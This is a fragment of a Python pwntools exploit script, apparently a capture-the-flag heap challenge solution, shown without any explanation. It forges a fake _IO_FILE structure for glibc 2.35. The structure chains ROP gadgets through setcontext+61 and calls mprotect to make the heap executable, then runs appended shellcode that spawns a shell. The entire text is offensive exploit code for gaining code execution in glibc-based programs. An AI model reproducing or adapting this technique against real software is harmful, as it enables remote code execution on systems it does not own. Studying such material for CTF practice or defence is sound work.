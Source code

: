 ```python

## rdx + 0xa8
#ogg = [0x50a37,0xebcf1,0xebcf5,0xebcf8]
#RCE  = ogg[2]+ libc_base
#print(hex(RCE))
#
#
#libc.address = libc_base
#libc_rop = ROP(libc)


libc = ELF(libelf)
libc.address = libc_base
libc_rop = ROP(libc)

# tel	_IO_list_all&
#setcontext_rcx = libc_base + 0x000000000013cf8d # # rbpstart
pop_5 = libc_rop.find_gadget(['pop rbx','pop rbp','pop r12','pop r13','pop r14','ret'])[0]
rax = libc_rop.find_gadget(['pop rax','ret'])[0]
rdi = libc_rop.find_gadget(['pop rdi','ret'])[0]
rsi = libc_rop.find_gadget(['pop rsi','ret'])[0]
rdx = libc_rop.find_gadget(['pop rdx','pop rbx','ret'])[0]

mprotect   	= libc.sym['mprotect']
setcontext      = libc.sym['setcontext']
_IO_list_all    = libc.sym['_IO_list_all']
_IO_wfile_jumps = libc.sym['_IO_wfile_jumps']

RCE = setcontext + 61

fake_IO_addr = heap_base + 7200
fake_IO_FILE  = p64(8)
fake_IO_FILE += p64(RCE) # call # setcontext + 61 # libc2.35
fake_IO_FILE += p64(0) +p64(1) # _IO_write_base # _IO_write_ptr
fake_IO_FILE += p64(fake_IO_addr) # fp->_IO_write_ptr
fake_IO_FILE += p64(rdi) + p64(heap_base) + p64(rsi) + p64(0x21000) + p64(rdx) + p64(7) # pop*5 to me
fake_IO_FILE += p64(fake_IO_addr+0xc0)
fake_IO_FILE += p64(mprotect)
fake_IO_FILE += p64(fake_IO_addr + 248) # shellcode_addr
fake_IO_FILE  = fake_IO_FILE.ljust(0x90,b'\x00')
fake_IO_FILE += p64(fake_IO_addr+0x10)
fake_IO_FILE += p64(pop_5) # setcontext Tow CALL #need pop * 5 ;ret
fake_IO_FILE  = fake_IO_FILE.ljust(0xb0,b'\x00')
fake_IO_FILE += p64(1) # mode
fake_IO_FILE  = fake_IO_FILE.ljust(0xc8,b'\x00')
fake_IO_FILE += p64(_IO_wfile_jumps + 0x30)
fake_IO_FILE  = fake_IO_FILE.ljust(0xe0,b'\x00')
fake_IO_FILE += p64(fake_IO_addr)
fake_IO_FILE += asm(shellcraft.sh())
fake_IO_FILE += b'\n'
```
